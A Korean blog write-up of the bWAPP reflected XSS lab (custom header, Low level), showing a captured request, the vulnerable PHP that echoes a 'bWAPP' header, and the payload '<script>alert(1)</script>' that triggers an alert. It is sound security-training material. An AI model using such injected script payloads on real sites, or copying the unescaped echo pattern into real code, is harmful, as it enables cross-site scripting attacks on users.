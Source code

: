 ```yaml
---
layout: single
title: (bWAPP)XSS - Reflected (Custom Header)
categories: bwapp
tag: [xss,reflected,stored,reflected xss, bee box,stored xss, OWASP TOP 10, OWASP, bwapp, dom xss]
toc: true
author_profile: false
---
```


## Level - Low
![그림 1-1](/assets/image/bwapp/xss/Reflected%20(Custom%20Header)-archive/image.png)

- 해당 페이지에서 bWAPP 라는 사용자가 따로 정의한 Custom Header 를 사용하는 듯 하다.

```
GET /bWAPP/xss_custom_header.php HTTP/1.1
Host: 192.168.146.133
Cookie: PHPSESSID=796791ea165926173fb4b5cb319fe0b2; security_level=0
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.146.133/bWAPP/portal.php
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

- Requess 값을 확인했을 떄는 따로 Header가 추가되어 전송되지는 않는 듯 하다.

```php
<?php

foreach(getallheaders() as $name => $value)
{

    if($name == "bWAPP")
    {

        echo "<i>" . xss($value) ."</i>";

    }

}

?>
```
- 해당 시나리오의 적용된 소스코드 중 일부이다.
- Header 정보를 가져와 Header의 이름이 bWAPP일 경우 아래 echo 명령어 부분을 실행한다.

```
bWAPP: test
```

- 위와 같이 bWAPP 라는 Header에 test라는 임의의 문자열을 주고 전송했다.

![그림 1-2](/assets/image/bwapp/xss/Reflected%20(Custom%20Header)-archive/image-1.png)
- test 문자열이 출력되는 걸 확인할 수 있다.
- 즉 해당 \<i> 태그 안에 \<script>문을 사용하여 실행이 가능하다.

```
bWAPP: <script>alert(1)</script>
```

![그림 1-3](/assets/image/bwapp/xss/Reflected%20(Custom%20Header)-archive/image-2.png)
- 성공적으로 alert 창이 실행된다.